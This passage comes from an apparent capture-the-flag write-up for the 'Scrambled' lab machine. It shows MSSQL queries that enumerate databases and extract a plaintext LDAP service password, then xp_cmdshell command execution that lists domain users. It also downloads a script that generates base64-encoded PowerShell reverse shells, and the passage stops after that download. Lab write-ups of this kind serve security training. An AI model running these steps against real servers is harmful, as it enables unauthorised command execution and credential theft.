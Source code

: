 Let's look through the databases and tables for loot:

```sh
SQL> SELECT name, database_id, create_date from SYS.DATABASES
name               database_id   create_date
----------------   -----------   -----------
master             1             2003-04-08 09:13:36
tempdb             2             2022-07-11 00:03:29
model              3             2003-04-08 09:13:36
msdb               4             2019-09-24 14:21:42
ScrambleHR         5             2021-11-03 17:46:55

SQL> select table_name from ScrambleHR.INFORMATION_SCHEMA.TABLES
table_name
----------
Employees
UserImport
Timesheets

SQL> select ldapuser,ldappwd from userimport
ldapuser          ldappwd
---------------   ---------------------
MiscSvc           ScrambledEggs9900
```

We have another account and password.

## XP CMD Shell

Next we can test if [xp_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) is enabled:

```sh
SQL> xp_cmdshell net user
User accounts for \\DC1                                                            
------------------------------------------------------------
administrator            asmith                   backupsvc
ehooker                  Guest                    jhall
khicks                   krbtgt                   ksimpson
miscsvc                  rsmith                   sdonington
sjenkins                 sqlsvc                   tstar
```

## PowerShell Reverse Shell

Of course we knew it would be! Time for a reverse shell, I used [this](https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py) script to generate a base64 encoded one to avoid any problems:

```sh
┌──(root㉿kali)-[~/htb/scrambled]
└─# wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
--2022-07-11 22:01:39--  https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
Resolving gist.githubusercontent.com (gist.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
Connecting to gist.githubusercontent.com (gist.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1107 (1.1K) [text/plain]
Saving to: ‘mkpsrevshell.py’
mkpsrevshell.py    100%[============================================>]   1.08K  --.-KB/s    in 0s      
2022-07-11 22:01:40 (129 MB/s) - ‘mkpsrevshell.py’ saved [1107/1107]

```